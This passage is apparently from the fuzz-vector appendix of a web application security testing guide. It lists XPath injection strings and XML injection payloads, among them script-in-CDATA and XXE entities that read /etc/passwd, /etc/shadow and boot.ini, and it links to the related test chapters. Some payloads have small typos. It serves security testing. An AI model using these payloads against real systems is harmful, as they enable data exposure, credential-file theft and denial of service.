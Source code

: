 For details on XPATH Injection: [Testing for XPath Injection](../4_Web_Application_Security_Testing/4.8_Input_Validation_Testing/4.8.10_Testing_for_XPath_Injection_OTG-INPVAL-010.md)

`'+or+'1'='1`
`'+or+''='`
`x'+or+1=1+or+'x'='y`
`/`
`//`
`//*`
`*/*`
`@*`
`count(/child::node())`
`x'+or+name()='username'+or+'x'='y`

## XML Injection

Details on XML Injection here: [Testing for XML Injection](../4_Web_Application_Security_Testing/4.8_Input_Validation_Testing/4.8.8_Testing_for_XML_Injection_OTG-INPVAL-008.md)

`<![CDATA[<script>var n=0;while(true){n++;}</script>]]>`
`<?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[<]]>SCRIPT<![CDATA[>]]>alert('gotcha');<![CDATA[<]]>/SCRIPT<![CDATA[>]]></foo>`
`<?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[' or 1=1 or ''=']]></foof>`
`<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file://c:/boot.ini">]><foo>&xee;</foo>`
`<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xee;</foo>`
`<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///etc/shadow">]><foo>&xee;</foo>`
`<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///dev/random">]><foo>&xee;</foo>`
